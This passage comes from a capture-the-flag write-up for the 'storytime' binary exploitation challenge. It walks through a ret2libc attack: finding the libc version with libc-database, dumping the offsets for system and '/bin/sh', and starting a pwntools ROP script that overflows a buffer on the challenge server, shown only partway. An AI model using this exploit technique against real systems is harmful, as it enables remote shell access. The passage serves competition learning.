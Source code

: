 So now we know we definitely have to do a ret2libc attack. We've got read's libc address, so the first order of business is to figure out which libc the program is using. I use [niklasb's libc-database](https://github.com/niklasb/libc-database) to do this. You just download all the libc libraries using `./get`, then call `./find <func_name> <last_12_bits_of_addr>`
```shell
» ./find read 250
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
archive-glibc (id libc6_2.23-0ubuntu11_amd64)
archive-old-glibc (id libc6-i386_2.19-10ubuntu2.3_amd64)
```

I chose the first entry (although which you choose shouldn't matter). read() happens to be classified as a useful function, so we can just use ./dump to dump a bunch of useful offsets.
```shell
» ./dump libc6_2.23-0ubuntu10_amd64
offset___libc_start_main_ret = 0x20830
offset_system = 0x0000000000045390
offset_dup2 = 0x00000000000f7970
offset_read = 0x00000000000f7250
offset_write = 0x00000000000f72b0
offset_str_bin_sh = 0x18cd57
```

With the offsets, we can now finish the rest of the exploit.

This time, we leak the address of read inside libc, calculate the libc base address on the fly (by doing `leaked_read_address-offset_of_read_in_libc`), then use '/bin/sh' and system's offsets to calculate their addresses. Then we just jump back to main to restart the entire program, build the payload again, only this time we call system('/bin/sh').
```python
#!/usr/bin/env python2

from pwn import *

BINARY = './storytime'

context.log_level = 'critical'
elf = ELF(BINARY)
sh = remote("pwn.hsctf.com", 3333)

# Addresses we already know from the binary
write_plt = elf.plt['write']
read_got = elf.got['read']
main_addr = elf.symbols['main']

# Gadgets
pop_rdi = 0x0000000000400703
pop_rsi_r15 = 0x0000000000400701
pop_rdx = 0

# Helper function to call functions with specified args
def call(func, arg1, arg2, arg3):
    output = ''
    if arg1 != None:
        output += p64(pop_rdi) + p64(arg1)
    if arg2 != None:
        output += p64(pop_rsi_r15) + p64(arg2)*2
    if arg3 != None:
        if pop_rdx == 0:
                print 'No rdx gadget provided'
                exit(-1)
        else:
                output += p64(pop_rdx) + p64(arg3)
    return output + p64(func)

payload = "A"*(0x30+8) # Overflow the buffer
```